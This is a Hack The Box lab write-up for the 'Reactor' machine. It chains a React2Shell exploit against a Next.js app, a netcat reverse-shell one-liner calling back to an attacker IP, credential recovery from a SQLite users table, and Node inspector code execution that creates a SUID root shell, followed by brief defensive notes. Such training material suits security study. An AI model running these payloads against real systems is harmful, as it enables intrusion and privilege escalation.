



Reactor¶
Replaceable banner
Replace images/banner.png in this box folder with the final Reactor artwork. The page already points to that filename.
| Field | Value |
|---|---|
| Status | Completed — May 26, 2026 |
| Difficulty | Easy; assessed as Medium by the author |
| Focus | Linux, Node.js, web exploitation |
| Machine | Reactor on Hack The Box |
Attack path¶
- Scan the host and identify SSH and the Next.js service on port 3000.
- Exploit the React2Shell vulnerability to obtain a shell as
node. - Read the application SQLite database and use the recovered engineer credentials over SSH.
- Discover a privileged Node process with the inspector bound to
127.0.0.1:9229. - Connect to the inspector, execute JavaScript in the privileged process and create a SUID Bash copy.
1. Reconnaissance¶
The completed scan found SSH and the web application:
┌──(exp10i73r㉿kali)-[~]
└─$ nmap -p- --min-rate 1000 -T4 -Pn -sV -oA nmap/nmap_full_scan 10.129.105.175
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-13 17:41 +0530
Warning: 10.129.105.175 giving up on port because retransmission cap hit (6).
Stats: 0:05:36 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 75.00% done; ETC: 17:46 (0:00:01 remaining)
Nmap scan report for 10.129.105.175
Host is up (0.44s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
3000/tcp open ppp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.99%I=7%D=6/13%Time=6A2D49E9%P=aarch64-unknown-linux-gn
SF:u%r(GetRequest,247A,"HTTP/1\.1\x20200\x20OK\r\nVary:\x20RSC,\x20Next-Ro
SF:uter-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefet
SF:ch,\x20Accept-Encoding\r\nx-nextjs-cache:\x20HIT\r\nx-nextjs-prerender:
SF:\x201\r\nx-nextjs-stale-time:\x204294967294\r\nX-Powered-By:\x20Next\.j
SF:s\r\nCache-Control:\x20s-maxage=31536000,\x20\r\nETag:\x20\"p02u6gnhufd
SF:8t\"\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x2017175\r\nDate:\x20Sat,\x2013\x20Jun\x202026\x2012:20:42\x20GMT\r\nC
SF:onnection:\x20close\r\n\r\n<!DOCTYPE\x20html><html\x20lang=\"en\"><head
SF:><meta\x20charSet=\"utf-8\"/><meta\x20name=\"viewport\"\x20content=\"wi
SF:dth=device-width,\x20initial-scale=1\"/><link\x20rel=\"stylesheet\"\x20
SF:href=\"/_next/static/css/414e1be982bc8557\.css\"\x20data-precedence=\"n
SF:ext\"/><link\x20rel=\"preload\"\x20as=\"script\"\x20fetchPriority=\"low
SF:\"\x20href=\"/_next/static/chunks/webpack-db0a529a99835594\.js\"/><scri
SF:pt\x20src=\"/_next/static/chunks/4bd1b696-80bcaf75e1b4285e\.js\"\x20asy
SF:nc=\"\"></script><script\x20src=\"/_next/static/chunks/517-d083b552e04d
SF:ead1\.js\"\x20async=\"\"></script><script\x20s")%r(Help,2F,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(NCP,2F,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(HTT
SF:POptions,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20RSC,\x20Ne
SF:xt-Router-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-P
SF:refetch\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x20private
SF:,\x20no-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r\nDate:\x
SF:20Sat,\x2013\x20Jun\x202026\x2012:20:50\x20GMT\r\nConnection:\x20close\
SF:r\n\r\n")%r(RTSPRequest,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary
SF::\x20RSC,\x20Next-Router-State-Tree,\x20Next-Router-Prefetch,\x20Next-R
SF:outer-Segment-Prefetch\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Cont
SF:rol:\x20private,\x20no-cache,\x20no-store,\x20max-age=0,\x20must-revali
SF:date\r\nDate:\x20Sat,\x2013\x20Jun\x202026\x2012:20:53\x20GMT\r\nConnec
SF:tion:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 337.44 seconds
| Port | Service | Observation |
|---|---|---|
| 22/tcp | SSH | Used later for the engineer account. |
| 3000/tcp | Next.js | React/Next.js application and the initial attack surface. |
The first two screenshots show the web reconnaissance sequence.


2. Exploit React2Shell¶
The source notes use a React2Shell proof of concept for CVE-2025-55182. The complete exploit, callback and shell-stabilization transcript is preserved below.
┌──(exp10i73r㉿kali)-[~/CVE/React2Shell-CVE-2025-55182-PoC-Reverse-Shell]
└─$ python3 react2shell.py -u http://10.129.105.175:3000/ -l 10.10.16.28 -p 4444
==================================================================
| React2Shell - (CVE-2025–55182) |
| By Hasa |
==================================================================
[*] Target URL (-u): http://10.129.105.175:3000/
[*] Local IP (-l): 10.10.16.28
[*] Port (-p): 4444
[*] Command: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.28 4444 >/tmp/f
[*] Sending payload...
┌──(exp10i73r㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.105.175] 58484
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
node@reactor:/opt/reactor-app$ ^Z
zsh: suspended nc -lvnp 4444
┌──(exp10i73r㉿kali)-[~]
└─$ stty raw -echo; fg
[1] + continued nc -lvnp 4444
export TERM=xterm
node@reactor:/opt/reactor-app$
3. Recover the engineer account¶
The application directory contains reactor.db. The complete database transcript from the source note is preserved below.
node@reactor:/opt/reactor-app$ ls
app next.config.js node_modules package.json package-lock.json reactor.db
node@reactor:/opt/reactor-app$ sqlite3 reactor.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
sensor_logs users
sqlite> select * from users;
1|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb
2|engineer|39d97110eafe2a9a68639812cd271e8e|operator|engineer@reactor.htb
sqlite> select * from sensor_logs;
1|2025-12-28 14:32:01|CORE_TEMP_01|324.5|NOMINAL
2|2025-12-28 14:32:01|PRESSURE_01|155.2|NOMINAL
3|2025-12-28 14:32:01|COOLANT_FLOW|18.4|CAUTION
sqlite>

The recovered engineer credentials allow SSH access. The complete SSH login and user-session transcript follows; the user flag value is redacted.
┌──(exp10i73r㉿kali)-[~]
└─$ ssh engineer@10.129.105.175
The authenticity of host '10.129.105.175 (10.129.105.175)' can't be established.
ED25519 key fingerprint is: SHA256:9v9mCPC4gn2EN/IbKKwhV8KZoNVTsVPorFhlTkNByPM
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.105.175' (ED25519) to the list of known hosts.
engineer@10.129.105.175's password:
____ _____ _ ____ _____ ___ ____
| _ \| ____| / \ / ___|_ _/ _ \| _ \
| |_) | _| / _ \| | | || | | | |_) |
| _ <| |___ / ___ \ |___ | || |_| | _ <
|_| \_\_____/_/ \_\____| |_| \___/|_| \_\
ReactorWatch Core Monitoring System
Nuclear Dynamics Corp. - Site 7
AUTHORIZED PERSONNEL ONLY
Last login: Sat Jun 13 12:33:54 2026 from 10.10.16.28
engineer@reactor:~$ ls
user.txt
engineer@reactor:~$ cat user.txt
<USER_FLAG_REDACTED>
4. Find the Node inspector¶
From the engineer shell, inspect listening sockets and identify the local Node inspector on port 9229. The complete inspector, SUID creation and root-session transcript from the source note is preserved in the next section.
5. Execute JavaScript through the inspector¶
Connect to the local inspector. It evaluates JavaScript in the context of the process that owns it. The complete inspector exploitation transcript follows; the root flag value is redacted.
engineer@reactor:/opt/uptime-monitor$ ss -tunlp
Netid State Recv-Q Send-Q Local Address:Port Peer Address:Port Process
udp UNCONN 0 0 127.0.0.54:53 0.0.0.0:*
udp UNCONN 0 0 127.0.0.53%lo:53 0.0.0.0:*
udp UNCONN 0 0 0.0.0.0:68 0.0.0.0:*
tcp LISTEN 0 4096 0.0.0.0:22 0.0.0.0:*
tcp LISTEN 0 4096 127.0.0.54:53 0.0.0.0:*
tcp LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
tcp LISTEN 0 511 127.0.0.1:9229 0.0.0.0:*
tcp LISTEN 0 4096 [::]:22 [::]:*
tcp LISTEN 79 511 *:3000 *:*
engineer@reactor:/opt/uptime-monitor$ which node
/usr/bin/node
engineer@reactor:/opt/uptime-monitor$ /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
Starting inspector on 127.0.0.1:9229 failed: address already in use
uptime-monitor up, pid=46289
node:fs:2380
return binding.writeFileUtf8(
^
Error: EACCES: permission denied, open '/var/log/uptime-monitor.csv'
at Object.writeFileSync (node:fs:2380:20)
at Object.appendFileSync (node:fs:2461:6)
at record (/opt/uptime-monitor/worker.js:25:8)
at ClientRequest.<anonymous> (/opt/uptime-monitor/worker.js:64:9)
at ClientRequest.emit (node:events:524:28)
at Socket.emitRequestTimeout (node:_http_client:849:9)
at Object.onceWrapper (node:events:638:28)
at Socket.emit (node:events:536:35)
at Socket._onTimeout (node:net:595:8)
at listOnTimeout (node:internal/timers:581:17) {
errno: -13,
code: 'EACCES',
syscall: 'open',
path: '/var/log/uptime-monitor.csv'
}
Node.js v20.20.2
engineer@reactor:/opt/uptime-monitor$ node inspect 127.0.0.1:9229
connecting to 127.0.0.1:9229 ... ok
debug> exec("process.mainModule.require('child_process').execSync('cp /bin/bash /tmp/r00t && chmod +s /tmp/r00t')")
Uint8Array(0)
(To exit, press Ctrl+C again or Ctrl+D or type .exit)
debug>
engineer@reactor:/opt/uptime-monitor$ ls
worker.js
engineer@reactor:/opt/uptime-monitor$ cd /tmp
engineer@reactor:/tmp$ ls -la
total 2516
drwxrwxrwt 15 root root 4096 Jun 13 13:08 .
drwxr-xr-x 23 root root 4096 May 20 10:07 ..
prw-r--r-- 1 node node 0 Jun 13 12:41 f
drwxrwxrwt 2 root root 4096 Jun 13 12:14 .font-unix
drwxrwxrwt 2 root root 4096 Jun 13 12:14 .ICE-unix
-rwxrwxr-x 1 engineer engineer 1063041 Jun 13 12:36 linpeas.sh
-rwsr-sr-x 1 root root 1446024 Jun 13 13:04 r00t
drwx------ 2 root root 4096 Jun 13 12:14 snap-private-tmp
drwx------ 3 root root 4096 Jun 13 12:14 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-ModemManager.service-dEUS9g
drwx------ 3 root root 4096 Jun 13 12:14 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-polkit.service-5e90kw
drwx------ 3 root root 4096 Jun 13 12:14 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-systemd-logind.service-2ruBmC
drwx------ 3 root root 4096 Jun 13 12:14 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-systemd-resolved.service-j635Nk
drwx------ 3 root root 4096 Jun 13 12:14 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-systemd-timesyncd.service-wJsVMs
drwx------ 3 root root 4096 Jun 13 12:27 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-upower.service-bWjFNa
drwx------ 2 engineer engineer 4096 Jun 13 12:55 tmux-1000
drwx------ 2 root root 4096 Jun 13 12:15 vmware-root_723-4282236435
drwxrwxrwt 2 root root 4096 Jun 13 12:14 .X11-unix
drwxrwxrwt 2 root root 4096 Jun 13 12:14 .XIM-unix
engineer@reactor:/tmp$ /tmp/root -p
-bash: /tmp/root: No such file or directory
engineer@reactor:/tmp$ /tmp/r00t -p
r00t-5.2# cat /root/root.txt
<ROOT_FLAG_REDACTED>
r00t-5.2#
Why the escalation works¶
A Node inspector is a full debugging interface, not a read-only status endpoint. Any local user who can connect to it can evaluate JavaScript in the target process. Binding the inspector to 127.0.0.1 limits network exposure but does not protect against another local account.
Defensive notes¶
- Do not run
node --inspector--inspect-brkfor privileged production services. - Run debug interfaces as an unprivileged account and isolate them with namespaces or a local firewall.
- Monitor for unexpected SUID binaries in writable directories such as
/tmp.